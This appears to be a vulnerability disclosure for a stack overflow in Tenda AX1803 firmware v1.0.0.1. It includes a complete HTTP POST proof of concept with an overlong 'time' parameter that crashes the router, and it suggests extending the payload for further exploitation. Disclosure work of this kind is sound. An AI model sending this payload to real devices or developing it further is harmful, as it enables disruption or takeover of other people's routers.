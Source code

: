 # Tenda AX1803 v1.0.0.1 contains a stack overflow via the time parameter in the function saveParentControlInfo

## Firmware infomation

- Manufacturer's address：https://www.tenda.com.cn/
- Affected firmware infomation：https://www.tenda.com.cn/download/detail-3421.html
- Affected firmware version：v1.0.0.1

<img src="img/0.png" style="zoom:80%;" />

## Vulnerability Description

Tenda AX1803 v1.0.0.1 contains a stack overflow via the time parameter in the function saveParentControlInfo.

![](img/16.png)

![](img/17.png)

## POC

```
POST /goform/saveParentControlInfo HTTP/1.1
Host: 192.168.10.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: password=002a77b3f3cdec7e900d0be9a911fb6bfentgb
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 127

time=a-aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

![](img/20.png)

The router will crash after sending the poc, and you may modify this for further exploiting.